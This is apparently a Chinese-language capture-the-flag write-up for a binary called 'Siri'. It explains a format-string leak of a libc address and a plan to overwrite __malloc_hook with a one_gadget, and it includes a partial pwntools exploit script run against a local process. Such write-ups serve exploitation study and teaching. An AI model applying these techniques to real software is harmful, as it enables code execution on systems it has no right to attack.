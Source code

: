 ### Siri
*   查看保护发现保护全开
![](./Siri_1.png)
*   在这个函数中发现了格式化字符串漏洞, 同时这个函数可以无限被调用
![](./Siri_2.png)
*   我们的思路
    -   使用格式化字符串漏洞泄露出libc_start_main函数的实际地址
    -   计算出libc中的onegadget
    -   因为调用printf输入长的字符串会调用malloc重新申请更大的缓冲区, malloc函数通过调用malloc_hook函数指针, 那么我们可以修改malloc_hook指向我们找到的onegadget
    -   输入超长字符串触发malloc

>   我们的payload如下
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./Siri')

p.recvuntil('>>> ')
p.send('Hey Siri!')
p.recvuntil('\n>>> ')

# 获取__malloc_hook的地址
p.send('Remind me to %103$p')
libc_start_main = int(p.recv()[27:27+14], 16) - 128
libc = LibcSearcher('__libc_start_main', libc_start_main)
libc_base   = libc_start_main - libc.dump('__libc_start_main')
malloc_hook = libc_base + libc.dump('__malloc_hook')
gadget      = libc_base + 0xebc85

```
